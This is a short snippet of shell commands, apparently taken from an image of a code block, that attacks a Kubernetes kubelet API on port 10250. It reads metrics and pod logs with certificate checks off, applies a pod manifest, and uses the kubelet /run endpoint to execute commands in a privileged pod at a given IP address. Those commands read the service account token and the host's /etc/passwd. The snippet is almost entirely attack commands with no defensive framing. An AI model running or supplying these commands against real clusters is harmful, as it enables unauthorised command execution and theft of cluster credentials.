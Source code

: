 curl -k https://<ip>:10250/metrics
curl -k https://<ip>:10250/logs/pods/

kubectl apply -f pod.yaml

curl -XPOST -k https://<ip>:10250/run/<namespace>/<pod>/<container> -d "cmd=<command-to-run>"

curl -XPOST -k https://116.203.41.138:10250/run/default/my-privileged-pod/my-ubuntu -d "cmd=cat /var/run/secrets/kubernetes.io/serviceaccount/token"

curl -XPOST -k https://116.203.41.138:10250/run/default/my-privileged-pod/my-ubuntu -d "cmd=cat /host/etc/passwd"

